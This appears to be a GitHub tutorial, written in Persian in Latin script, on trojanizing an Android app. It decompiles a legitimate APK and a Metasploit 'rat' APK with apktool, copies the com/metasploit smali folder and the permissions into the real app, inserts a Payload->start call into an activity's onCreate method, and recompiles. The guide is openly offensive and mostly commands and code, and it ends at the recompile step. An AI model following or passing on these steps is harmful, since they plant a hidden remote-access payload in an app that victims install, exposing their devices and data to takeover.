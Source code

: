 ## Decompile and Recompile An android APK 🧰

Ghasd darim yek app ra decompile karde va pas az tazrigh metasploit dobare recompile konim 

$ bad az sakht metasploit tebgh ravesh gofte shode dar `Android-MetaSploit-L1` 2 kar zer ra bayad anjam dahim

```bash
apktool d /home/kali/Dekstop/rat.apk
```

```bash
apktool d /home/kali/Dekstop/app.apk
```

har 2 app ra decompile mikonim


## Install apktool ⬇️

abzar "apktool" b sorat pishfarz dar kali linux nasb nist va b shekl zer eghdam b nasb namaed

```bash
sudo apt install apktool
```

$ bar roye joft poshe haye decompile shode app ha ras click karde va gozine `open as Root` ra mizanim ta baz shavand

### 2 kar ra bayad anjam dahim

1. **Jaygozine metasploit** Poshe "metasploit" ra az app alode dar address `smali > com > metasploit` dar hamin address dar app asli jaygozin mikonim
 
 
2. **Edit AndroidManifest.xml** bar roye har 2 file `AndroidManifext.xml` click rast karde va `Open With "MousePad" ra mizanim va karhaye zer ra anjam midahim

- copy ebeart ro b ro az "rat" b "app"        
`<uses-permission android:""/>`

- search `activity android` va dar hamon khat ebarat `android:name=` ro b rosh ye hamchin chizi hast : `com.google.android.gms.common.api.GoogleApiActivity`
- `com.google.android.gms.common.api.GoogleApiActivity` en masir ro dar "app asli" peyda mikonm
example : Poshe smali > Poshe com > Poshe google > Poshe android > Poshe gms > Poshe common > ..... > Akharesh b ye "file" mirsim 
- Dakhel file migardim donbal ebarat `onCreate(Landroid/os/Bundle;)v` Agar chand ta bood , On k avvalesh `method` Dare
- Ye Enter mizanim va khat badi en `invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V` ro ezafe mikonim


Dige ba "rat" kari nadarim va "app asli" ro Recompile mikonim va Tamam ....

```bash
apktool b /home/kali/Dekstop/app.apk
